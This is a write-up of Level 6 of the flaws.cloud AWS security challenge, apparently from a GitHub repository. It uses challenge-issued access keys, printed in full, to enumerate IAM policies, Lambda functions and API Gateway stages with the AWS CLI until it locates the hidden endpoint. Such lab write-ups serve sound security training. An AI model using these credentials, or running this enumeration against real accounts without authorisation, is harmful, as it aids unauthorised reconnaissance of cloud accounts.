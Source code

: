 # Level 6
url: `http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/`

<kbd>![image](https://github.com/user-attachments/assets/eb4c364a-c80b-4bb4-8a86-bffb0f17e0cb)</kbd>

This time we are going to find policies and access attached to the given keys, also it said the there is SecurityAudit policy attached to these keys.

>- The **SecurityAudit** group can get a high level overview of the resources in an AWS account, but it's also useful for looking at IAM policies. 
>
>

```
Access key ID: AKIAJFQ6E7BY57Q3OBGA
Secret: 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
```

Lets proceed and add this new access to our profile using `aws configure` command

<kbd>![image](https://github.com/user-attachments/assets/24a8ba8e-0178-48f1-a2a6-38d871464394)</kbd>

We can check our listed profiles we can use 

```
aws configure list-profiles
```
<kbd>![image](https://github.com/user-attachments/assets/8d7fc921-b57c-4db9-97ac-1a3e9b30cfe1)</kbd>

First, find out who you are or this is equivalent to `whoami`

```
aws iam get-user --profile level6
```
<kbd>![image](https://github.com/user-attachments/assets/ae2c5ebc-488c-4742-a861-e533eda16b2c)</kbd>

we'll take note of the username, 
```
 "UserName": "Level6"
```

Using the username, this will allow us to request for any attached policies that it may have access to, 

```
└─$ aws iam list-attached-user-policies --user-name level6 --profile level6 
{
    "AttachedPolicies": [
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        }
    ]
}
  
```
<kbd>![image](https://github.com/user-attachments/assets/3e67ace5-2786-4bc4-8ec1-ad9d08111210)</kbd>

Great, we found another security policy called `list_apigateways`, 

We can enumerate this policy using `aws iam get-policy` to find the `versionid`

<kbd>![image](https://github.com/user-attachments/assets/8df2443b-6c80-47ce-b18a-679ea20f356d)</kbd>

Now that we have the `ARN` and the `version id`, we can now request what the actual policy is by using the `aws get-policy-version` 

We'll provide it with `policy-arn` and `version-id` we found earlier. 

```
aws iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile level6 
```

<kbd>![image](https://github.com/user-attachments/assets/a3c18607-9b7a-4c15-8f0e-e79779f7a75e)</kbd>


This tells us we can call "apigateway:GET" on "arn:aws:apigateway:us-west-2::/restapis/*" 

Since the `SecurityAudit policy` lets us see some things about lambdas: 

To check this we can issue `aws lambda list-functions`
```

└─$ aws lambda list-functions --region us-west-2 --profile level6
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 282,
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
:

```

So we have a function name called `Level6` , using this `function name`, we can now retrieve `resource` name. 

```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws lambda get-policy --function-name Level6 --region us-west-2 --profile level6
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
    "RevisionId": "edaca849-06fb-4495-a09c-3bc6115d3b87"
}
         
```

<kbd>![image](https://github.com/user-attachments/assets/dbd4eaa1-7c16-468c-a0e0-5491829f783b)</kbd>

This tells us we have the ability to execute `arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\` 

That "s33ppypa75" is a rest-api-id, which we can then use to find the resource name, we are going to use the `aws apigateway get-stages` command from the `rest-api-id` we just found

```
└─$ aws apigateway get-stages --rest-api-id s33ppypa75 --region us-west-2 --profile level6
{
    "item": [
        {
            "deploymentId": "8gppiv",
            "stageName": "Prod",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "methodSettings": {},
            "tracingEnabled": false,
            "createdDate": "2017-02-26T19:26:08-05:00",
            "lastUpdatedDate": "2017-02-26T19:26:08-05:00"
        }
    ]
}


```
We can see from the results the  `"stageName": "Prod",` which is great, meaning they are alive and in production. 

>- **Lambda** functions in aws are called using that `rest-api-id`, `stage name`, `region`, and `resource`.
>
>


>- `rest-api-id`  = s33ppypa75 (We got  from  `aws lambda get-policy` command )
>- `stage name` = execute-api (We got from  `aws lambda get-policy` command )
>- `region` = us-west-2 
>- resource = Prod/level6  (from `aws apigateway get-stages` )
 
If we combine them all together we will have ` https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6` 


Then we we go to the url, this is what we see

<kbd>![image](https://github.com/user-attachments/assets/b855e61e-de68-4121-9f6b-170b3d3b5238)</kbd>

It tells us to go to `http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/`

And if go the url 

![image](https://github.com/user-attachments/assets/cefa99cc-f91e-4e78-94bb-0a3e37425492)


The end. 



